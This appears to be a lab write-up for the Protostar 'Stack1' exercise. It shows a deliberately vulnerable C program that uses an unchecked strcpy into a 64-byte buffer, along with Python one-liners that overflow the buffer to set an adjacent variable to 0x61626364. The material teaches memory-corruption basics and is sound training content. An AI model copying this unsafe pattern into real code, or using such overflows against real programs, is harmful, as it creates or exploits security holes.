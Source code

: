 # Stack1

## Description
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
## Solution
On looking the source code we can see that it is checking if the value of modified is changed it 0x61626364. strcpy has similar vulnerabilities as gets function. So we can easily change the value of modified like previous challenge by entering the 64 bytes of any random data then entering the desired value of modified backwards. This is because the machine is working on little endian. To do this we can write the command as 
Python 2
```bash
./stack1 $(python -c "print(('1'*64)+'64636261'.decode('hex'))")
```
Python 3
```bash
./stack1 $(python -c "print(('1'*64)+bytes.fromhex('64636261').decode('utf-8'))")
```
Protostar VM does not support python3.

![screenshot](screenshot.jpg)